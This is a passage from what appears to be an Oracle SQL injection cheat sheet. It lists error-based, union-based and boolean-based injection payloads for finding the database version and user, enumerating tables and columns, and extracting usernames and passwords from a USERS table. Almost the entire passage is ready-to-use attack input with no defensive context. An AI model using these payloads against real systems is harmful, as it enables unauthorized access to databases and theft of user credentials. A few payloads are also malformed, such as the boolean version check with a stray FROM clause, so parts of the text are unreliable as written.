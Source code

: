  - **Column Length Error:** Forces an error by exceeding the column length limit.

```
' AND 1=UTL_INADDR.get_host_address((SELECT column_name FROM all_tab_columns WHERE ROWNUM = 1)) -- -
```

- **Function Error:** Uses a length mismatch to cause an error.

```
' AND LENGTH((SELECT banner FROM v$version WHERE ROWNUM = 1))=1000 -- -
```

### Union-Based SQLi

- **Database Version:** Retrieves the Oracle database version.

```
' UNION SELECT NULL, banner FROM v$version WHERE ROWNUM=1 -- -
```

**Database User:** Extracts the current Oracle database user.

```
' UNION SELECT NULL, user FROM dual -- -
```

- **Table Name Enumeration:** Lists the names of all tables accessible by the user.

```
' UNION SELECT NULL, table_name FROM all_tables WHERE ROWNUM=1 -- -
```

- **Column Name Enumeration:** Extracts the column names from a specified table.

```
' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name='USERS' AND ROWNUM=1 -- -
```

- **User Data Extraction:** Retrieves usernames and passwords from the `USERS` table.

```
' UNION SELECT NULL, username, password FROM USERS -- -
```

### Boolean-Based SQLi

- **Checking Oracle Version:** Evaluates to true if the Oracle version starts with '1'.

```
' AND SUBSTR(BANNER, 1, 1) = '1' FROM v$version WHERE ROWNUM = 1 -- -
```

- **Determining the Number of Tables:** Evaluates to true if there are more than 100 tables.

```
' AND (SELECT COUNT(*) FROM all_tables) > 100 -- -
```

- **Checking Existence of a Column:** Evaluates to true if the `PASSWORD` column exists in the `USERS` table.

```
' AND (SELECT COUNT(*) FROM all_tab_columns WHERE table_name = 'USERS' AND column_name = 'PASSWORD') > 0 -- -
```
